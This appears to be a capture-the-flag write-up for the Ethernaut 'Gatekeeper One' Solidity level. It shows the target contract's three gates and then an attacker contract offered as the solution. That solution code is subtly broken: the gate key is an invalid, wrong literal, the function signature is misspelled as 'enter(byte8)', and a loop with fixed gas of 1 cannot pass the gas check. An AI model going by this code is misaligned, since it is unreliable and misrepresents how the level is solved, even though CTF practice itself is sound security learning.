 # Gatekeeper_One
Make it past the gatekeeper and register as an entrant to pass this level.

Things that might help: <br>
Remember what you've learned from the Telephone and Token levels. <br>
You can learn more about the special function gasleft(), in Solidity's documentation (see Units and Global Variables and External Function Calls). <br>


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}

```
# solution:
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./gatekeeperOne.sol";


contract attackGateOne {
    address public owner;
    GatekeeperOne public gatekeeperOne;


    constructor (GatekeeperOne _gateOneAddress) {
        owner = msg.sender;
        gatekeeperOne = GatekeeperOne(_gateOneAddress);
    }
  
  function _attackGate() public {
    bytes8 _gatekey = 0x00000;
    for (; ;) {   
        (bool result, ) = address(gatekeeperOne).call{gas: 1 }(abi.encodeWithSignature("enter(byte8)", _gatekey));
        if (result) {
            break;
        }
    }
  }
}
```

